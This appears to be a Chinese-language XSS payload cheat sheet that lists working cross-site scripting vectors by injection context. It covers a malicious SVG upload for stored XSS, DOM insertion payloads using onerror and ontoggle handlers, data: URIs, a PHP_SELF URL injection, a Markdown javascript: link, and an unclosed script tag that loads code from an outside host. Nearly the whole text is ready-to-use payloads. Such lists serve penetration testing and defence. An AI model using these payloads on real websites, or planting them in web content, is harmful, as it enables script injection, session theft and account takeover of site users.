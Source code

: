 **用于在上传图片文件时在目标网站上创建存储型XSS。将下面payload保存为`xss.svg`文件**

```javascript
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
```



## DOM 插入注入

**用于当注入内容作为有效标记插入到DOM中（而不是在源码中反射）时的XSS，此方法使用于`<script>`标签和其他常见payload 无效的情况**

```javascript
<img src=1 onerror=alert(1)>
<iframe src=javascript:alert(1)>
<details open ontoggle=alert(1)>
<svg><svg onload=alert(1)>
```



## DOM 插入注入 - 资源请求

**用于测试原生Javascript代码将某个URL请求的结果插入到页面中，而该URL可以被攻击者控制时使用**

```javascript
data:text/html,<img src=1 onerror=alert(1)>
data:text/html,<iframe src=javascript:alert(1)>
```



## PHP Self URL注入

**用于当目标网站的底层PHP代码将当前URL用作HTML表单的属性值（例如`action`或`src`）时。通过PHP扩展名和查询部分（?）之间注入一个斜杠（/）来触发漏洞**

```javascript
https://brutelogic.com.br/xss.php/"><svg onload=alert(1)>?a=reader
```



## Markdown Vector

**用于允许部分标记输入（如Markdown）的文本框、评论区等场景。点击即可触发**

```
[clickme](javascript:alert`1`)
```



## Script 注入 - 无闭合标签

**用于当代码中反射点之后存在闭合的`</script>`标签时。通过注入不完整的`<script>`标签来触发漏洞**

```javascript
<script src=data:,alert(1)>
<script src=//brutelogic.com.br/1.js>
```
